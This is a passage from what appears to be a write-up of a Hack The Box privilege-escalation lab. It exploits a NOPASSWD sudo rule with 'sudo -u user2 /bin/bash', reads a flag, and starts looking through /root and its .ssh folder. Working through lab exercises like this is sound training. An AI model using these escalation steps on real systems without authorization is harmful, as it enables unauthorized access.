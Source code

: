 First, we see the text **NOPASSWD**: Indicating that our current user (user1) is allowed to run the specified commands without being prompted for a password. This can be a security feature to streamline certain processes, but it also carries some security risks.

Then we note the **/bin/bash**: This is the path to the "bash" shell executable. Allowing user1 to run "/bin/bash" means they have the ability to start an interactive shell session. This could potentially grant them significant control over the system.

With this in mind, I now want to see if it will work. So I run the following command for user2 as user1:
```
sudo -u user2 /bin/bash

```
From the terminal, this seems to have worked since the CLI switched from:
```
user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:
```
to this:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ 

```
Notice that we now have user2 access. So, once again, we try to read the _flag.txt_ file and manage to get the flag.
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ ls
flag.txt
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ cat flag.txt 
HTB{l473r4l_********_**_*******_u53r}

```
Ah great, so what, are we done? Or is there more we could do here? We have further instructions:
![chall blog](PriviledgeEscalation0.jpg)
Now we try to see if we can be the **root** user for this machine, escalating our privileges even further. First I navigate to the root user folder using the following commands:
```
cd ../../
ls
cd root
```
Then I list all directories and this is the output I get:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:/root$ ls -a
.  ..  .bash_history  .bashrc  .profile  .ssh  .viminfo  flag.txt

```
As you can see here, we have our _flag.txt_ file. I'm tempted to open it, and I do, but again, I get denied permission to do so. I then notice another interesting directory,**.ssh**. So I navigate to it and list its contents. 

The **.ssh** folder in a user's home directory on a Unix-like operating system that contains important files and directories related to SSH (Secure Shell) authentication and communication. 
